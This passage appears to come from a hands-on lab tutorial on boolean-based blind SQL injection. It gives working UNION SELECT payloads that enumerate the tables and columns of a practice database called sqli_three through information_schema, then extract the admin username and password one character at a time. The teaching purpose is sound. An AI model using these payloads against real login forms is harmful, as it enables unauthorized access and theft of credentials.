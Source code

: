 ```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

This query looks for results in the information_schema database in the tables table where the database name matches sqli_three, and the table name begins with the letter a. As the above query results in a false response, we can confirm that there are no tables in the sqli_three database that begin with the letter a. Like previously, you'll need to cycle through letters, numbers and characters until you find a positive match.

You'll finally end up discovering a table in the sqli_three database named users, which you can confirm by running the following username payload:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Lastly, we now need to enumerate the column names in the users table so we can properly search it for login credentials. Again, we can use the information_schema database and the information we've already gained to query it for column names. Using the payload below, we search the columns table where the database is equal to sqli_three, the table name is users, and the column name begins with the letter a.

```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

Again,  you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name to avoid discovering the same one. For example, once you've found the column named id, you'll append that to your original payload (as seen below).

```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:

```
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.

### Blind SQLi - Time Based
